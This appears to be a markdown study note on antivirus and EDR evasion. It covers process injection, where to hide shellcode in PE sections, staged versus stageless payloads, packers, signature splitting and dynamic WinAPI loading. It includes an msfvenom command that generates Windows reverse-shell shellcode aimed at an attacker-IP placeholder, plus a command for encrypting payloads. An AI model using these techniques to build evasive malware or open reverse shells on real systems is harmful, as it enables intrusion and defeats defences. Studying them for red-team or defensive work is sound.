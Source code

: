 ```yaml
---
title: Antivirus evading techniques
---
```


- [1. Process Injection](#1-process-injection)
  - [1.1. Memory execution tricks](#11-memory-execution-tricks)
  - [1.2. Shellcode](#12-shellcode)
    - [1.2.1. Shellcode hiding](#121-shellcode-hiding)
    - [1.2.2. Custom shellcode](#122-custom-shellcode)
    - [1.2.3. Shellcode generating](#123-shellcode-generating)
    - [1.2.4. Staged vs stageless](#124-staged-vs-stageless)
    - [1.2.5. Encoding \& Encryption](#125-encoding--encryption)
- [2. Packers](#2-packers)
- [3. Signature evasion](#3-signature-evasion)
- [4. Dynamic loading of WinAPI DLLs](#4-dynamic-loading-of-winapi-dlls)
- [5. WinAPI Unhooking](#5-winapi-unhooking)
- [6. Position Independent Code (PIC)](#6-position-independent-code-pic)

## 1. Process Injection
_Process Injection__ is a term to describe injecting malicious code into a legitimate process (existing or created) through legitimate Windows functionalities, bypassing EDRs and AVs.

There is [a lot of different techniques](https://attack.mitre.org/techniques/T1055/) to perform the process injection using different Windows components.

Almost all process injections can be reduced into following steps:

1. Open/create a target process.
2. Inject the shellcode to the target process memory.
3. Execute the shellcode.

### 1.1. Memory execution tricks
Standard `CreateThread` and `CreateRemote Thread` functions could be monitored by an EDR. There is couple tricks how to execute code in a different way:

- Invoking function pointers
- Asynchronous Procedure Calls
- PE section manipulation

### 1.2. Shellcode
Shellcode is a set of machine code instructions that creates a reverse command shell (in most cases). Usually it is stored as an array of bytes within the source code but there are different techniques how to hide it within the PE structures.

#### 1.2.1. Shellcode hiding
Understanding of the _Portable Executable_ (PE) structure allows us to manipulate the location where the shellcode is stored in the EXE file. We can control in which _data_ section to store our shellcode by how we define and initialize the shellcode variable. The shellcode must be stored within the file but the exact location might be controlled in order to evade AV software.

- **Local variable** within the function - _.TEXT_ section.
- **Global variable** - _.DATA_ section.
- **Raw binary in an icon image** - _.RSRC_ section.
- **Custom section** - created custom data section.

#### 1.2.2. Custom shellcode
Shellcode is generally written in Assembly and translated into hex opcodes. Writing custom shellcode helps in evading AV software significantly. Majority of low-cost malware uses just generic shellcode well-known by any AV software.

#### 1.2.3. Shellcode generating
There is a lot of tools intended to generate a shellcode. Generic shellcode is usually well detected by AV software. Most C2 frameworks provide their own shellcode generator compatible with the C2 platform.

```bash
# Generate C-style array of bytes with the reverse-shell Windows shellcode
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f c
```

> **NOTE**: `Msfvenom` has a lot more payloads than just a reverse-shell connection (e.g. windows/adduser).

#### 1.2.4. Staged vs stageless
A **stageless payload** embeds the final shellcode directly into the EXE file. It's a packaged app that executes the shellcode in a single-step process. It doesn't require any additional network connection but there is a bigger footprint on disk.

A **staged payload** works by using intermediary shellcodes that act as steps leading to the execution of a final shellcode. Each of these intermediary shellcodes is known as a stager, and its primary goal is to provide a means to retrieve the final shellcode and execute it eventually. It's a technique used to evade AV software. Usually there are 2 stages of the shellcode delivery. It requires network connection but there is a smaller footprint on disk.

Using `msfvenom` tool `windows/x64/shell_reverse_tcp` means _stageless_ and `windows/x64/shell/reverse_tcp` means _staged_ payload.

#### 1.2.5. Encoding & Encryption
Some kind of encoding or encryption is a great way to evade binary static analysis. Especially generic well-known shellcodes generated using `msfvenom` needs to be somehow additionally protected. Nowadays most of the AV software is able to decode common encoding algorithms. `Msfvenom` has a bit scarce list of available encryption algorithms.

```bash
# List available algorithms
msfvenom --list encrypt

# Add payload encryption
msfvenom [payload-args] --encrypt aes256 --encrypt-key "<ENCRYPTION-KEY>"
```

> **NOTE**: Default `msfvenom` payloads are almost fully-detectable by AV software, even if it's encrypted. It doesn't mean that `msfvenom` is completely useless. Custom chain of encryption and encoding can still do the job.

## 2. Packers
Packers are software that transform the program so that its structure looks different, but their functionality remains the same. Packers are obfuscating the final PE structure, the code and compress it. Apart from malware development, they are used to protect the software from being reverse engineered or cracked. Most common packers: `UPS`, `MPRESS`, `Themida`. Sometimes they add some anti-debbuging code.

The packers embed a code stub that contains an unpacker and redirect the main entry point to it. If the unpacker has a known signature, AV solutions might still detect any packed executable based on the unpacker stub only. In-memory unpacked payload still can be detected by memory scanning but it can be evaded with _anti-vm_ techniques.

## 3. Signature evasion
AV software tries to identify pre-defined signatures in a PE file which can indicate a potential threat. Spliting malicious EXE into smaller and smaller halfs (and running AV scan against them) we can identify chain of bytes that causes AV detection alert.

```powershell
# Check the provided file for a malware signature
ThreatCheck.exe -f <FILE_TO_SCAN> -e AMSI

# Another tool
amsitrigger.exe -i <FILE_TO_SCAN> -f 3
```

## 4. Dynamic loading of WinAPI DLLs
All identifiers of WinAPI functions being used are stored in the _Import Address Table_ (IAT) in a PE file header _IMAGE\_OPTIONAL\_HEADER_. To obtain the function pointer to the WinAPI functions we can load DLLs dynamically at runtime (`kernel32.dll` or `ntdll.dll`).

```cpp
// Load DLL at runtime
HMODULE h = LoadLibraryA("kernel32.dll");

// Get function from DLL
myFunc myFuncPtr = GetProcAddress(h, "<FUNCTION_NAME>");
```

Of course `LoadLibraryA` and `GetProcAddress` functions are still present in the IAT.

## 5. WinAPI Unhooking
TBD

## 6. Position Independent Code (PIC)
TBD
